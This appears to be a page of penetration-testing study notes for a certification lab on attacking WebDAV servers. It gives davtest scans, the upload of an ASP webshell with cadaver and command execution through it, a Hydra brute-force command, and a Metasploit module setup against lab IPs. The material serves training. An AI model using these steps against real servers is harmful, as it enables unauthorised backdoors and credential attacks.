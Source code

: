 # Webdav

- Requires creds to carry out attacks
    
- **Davtest** is a WebDAV scanner that sends exploit files to the WebDAV server and automatically creates the directory and uploads different format types of files. The tool also tried to execute uploaded files and gives us an output of successfully executed files.
    
- **Cadaver** is a tool for WebDAV clients, which supports a command-line style interface. It supports operations such as uploading files, editing, moving, etc.
    
- run nmap script http-enum if port 80 is open : /webdav/ should exist
    
- `davtest -url http://10.0.16.177/webdav`
    
    [![davtest output 1](https://github.com/neilmadhava/EJPTv2-Notes/raw/main/Host%20Based%20Attacks/images/webdav-01.png)](https://github.com/neilmadhava/EJPTv2-Notes/blob/main/Host%20Based%20Attacks/images/webdav-01.png)
    
- `davtest -auth <user>:<password> -url http://10.0.16.177/webdav` : should tell what file extensions could be uploaded like asp for sending potential payloads
    
    [![davtest output 2](https://github.com/neilmadhava/EJPTv2-Notes/raw/main/Host%20Based%20Attacks/images/webdav-02.png)](https://github.com/neilmadhava/EJPTv2-Notes/blob/main/Host%20Based%20Attacks/images/webdav-02.png)
    
- /usr/share/webshells/asp/ - stores webshells
    
- cadaver http://10.0.16.177/webdav

    - enter legit creds
    - put /usr/share/webshells/asp/webshell.asp
    - access backdoor using browser - [http://10.0.16.177/webdav/webshell.asp](http://10.0.16.177/webdav/webshell.asp)
    - [http://10.0.16.177/webdav/webshell.asp?cmd=whoami](http://10.0.16.177/webdav/webshell.asp?cmd=whoami)

# Hydra

- `hydra -L <userlist> -P <passlist> <ip> http-get /webdav/`

# Metasploit

- to get interactive session
- exploit/windows/iis/iis_webdav_upload_asp - use this module
    - set PATH /webdav/metasploit%RAND%.asp
    - set HttpUsername
    - set HttpPassword

# References:

1. DAVTest ([https://github.com/cldrn/davtest](https://github.com/cldrn/davtest))
2. Cadaver ([https://github.com/grimneko/cadaver](https://github.com/grimneko/cadaver))
3. ASP Webshell ([https://raw.githubusercontent.com/tennc/webshell/master/asp/webshell.asp](https://raw.githubusercontent.com/tennc/webshell/master/asp/webshell.asp))